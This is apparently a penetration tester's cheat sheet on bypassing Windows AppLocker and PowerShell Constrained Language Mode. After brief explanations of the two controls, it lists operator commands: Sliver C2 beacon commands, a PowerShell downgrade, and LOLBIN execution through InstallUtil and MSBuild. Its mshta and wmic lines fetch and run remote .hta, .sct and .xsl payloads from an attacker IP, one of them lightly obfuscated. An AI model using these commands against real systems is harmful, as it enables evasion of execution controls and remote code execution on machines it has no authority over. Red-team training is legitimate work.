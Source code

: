 # AppLocker - CLM Bypass

## **AppLocker**

AppLocker is a windows feature designed to control which users can run what programs. Uses rules for executables with a Publisher signature; allow anything signed by Microsoft - File Path, File Hash or by User or Security Group Scope assignment.

AppLocker is a binary-level execution control policy that determines which apps or scripts can or cannot run based on:

* File Path
* Publisher signature
* User and Security Group scoping
* Targets specific filetypes.

AppLocker covers the following filetypes:

* Executables - `.exe`, `.dll`
* Installers - `.msi`, `.msp`
* Scripts - `.bat`, `.cmd`, `.vbs`, `.js`, `.ps1`

Many AppLocker Rules are configured to block unsigned or non-whitelisted `.exe` files. AppLocker doesn't care where the binary comes from, but where (whitelisted directory) it runs it from, the file type, and if its signed or not.

## Constrained Language Mode (CLM)&#x20;

Constrained Language Mode (CLM) is a security feature in PowerShell designed to limit the use of potentially dangerous APIs and .NET features. When active, CLM limits PowerShell to a small subset of its full functionality, disabling powerfull features:&#x20;

* COM Object creation
* Reflection (`Invoke-ReflectivePEInjection`, `Add-Type`, etc)
* Invocation of dynamically compiled code
* Access to custom .NET assemblies

## LOLBINs&#x20;

LOLBINs or Living off the Land Binaries are commonly used Microsoft utilities that allow the ability to bypass AppLocker and CLM restrictions usually set through Group Policies (GPO). These conditions apply to the following:&#x20;

* InstallUltil.exe
* MSBuild.exe
* MSHTA.exe
* WMIC (XSL)

#### AppLocker Bypass Conditions

* installutil.exe is a Microsoft-signed binary
* located in whitelisted paths `` C:\Windows\...` ``&#x20;
* not commonly blocked

#### CLM Bypass Conditions

* Creating run-space for powershell to execute within .NET assembly (running via LOLBINs)
* Can run powershell in memory



***

## CLM Bypass

### Enumeration

```powershell
# powershell commandlet to run
PS C:\Windows\Temp > $ExecutionContext.SessionState.LanguageMode
# expected output if CLM is enabled
Mode
ConstrainedLanguage
```

### Sliver - Constrained Language Mode (CLM) Bypass

```bash
# For disabling in sliver, leverage sharpsh with its built in CLM bypass
sliver (beacon) > sharpsh -- -c '$ExecutionContext.SessionState.LanguageMode'

# For use with the CLM bypass executable - however unnecessary in most cases or need to use a windows terminal (sliver shell mode) 
sliver (beacon) > sideload /home/kali/ToolLibrary/CLMBypass/CLMBypass.exe

# All sliver shell code runners will be located in ToolLibrary/Sliver-Setup and ToolLibrary/Sliver-Setup-HTTPS
```

### Shell - Constrained Language Mode (CLM) Bypass

```bash
# a PowerShell downgrade to version 2,
C:\> powershell.exe -version 2

# Creating a new runspace with COM objects,
PS C:\> New-Object -ComObject WScript.Shell
```

***

## AppLocker Bypass

### Enumeration

```bash
# Find whitelisted directories
\home\kali\ToolLibrary\AppLocker-Enum\enumeratePaths.ps1

# Run via sliver interactive
sliver > sharpsh -- '-u http://192.168.45.227/enumeratePaths.ps1`
```

***

## InstallUtil

using `InstallUtil.exe` is a classic LOLBIN (Living Off The Land Binary) technique that can bypass AppLocker and CLM  under certain conditions for .NET-based payload delivery.&#x20;

### References

```bash
# utility location
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe

# Basic Execution
InstallUtil.exe /logfile= /LogToConsole=false /u payload.exe
```

***

## MSBuild

using `msbuild.exe` is another LOLBIN that uses Microsoft's build engine for compiling .NET applications that can also execute inline tasks (embedded C# code) making it an ideal candidate to bypass AppLocker and CLM restrictions.&#x20;

### References

```bash
# utility location (32-bit)
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
# utility location (64 bit)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe

# Basic Execution
MSBuild.exe bypass.xml
```

***

## MSHTA

using `mshta.exe` is another LOLBIN that uses Microsoft's HTML Applications (MSHTA) to bypass AppLocker and CLM. This is used to execute embedded scripts (`vbscript` or `jscript`) within an `payload.hta` file with full access to Windows Script Host environment.&#x20;

### References

```bash
# utility location (32-bit)
C:\Windows\System32\mshta.exe
# utility location (64-bit)
C:\Windows\SysWOW64\mshta.exe

# Basic Execution
mshta.exe http://192.168.45.227/bypass.hta

# Basic Execution of jscript
mshta.exe "javascript:GetObject('script:http://192.168.45.277/bypass.sct');close();"
# slightly offuscated Execution of Jscript
mshta.exe "javascript:a=GetObject;b='script:http://192.168.45.227/bypass.sct';a(b);close();"
```

***

## XSL - WMIC

Windows Management Instrumentation Command-Line (WMIC) is another Microsoft-signed binary LOLBIN desinged to query and control system management information. WMIC has capability to parse and execute XSL (XML Stylesheet Langauge) files and be abused to execute malicious scripts or binaries.&#x20;

### References

```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/bypass.xsl"
```
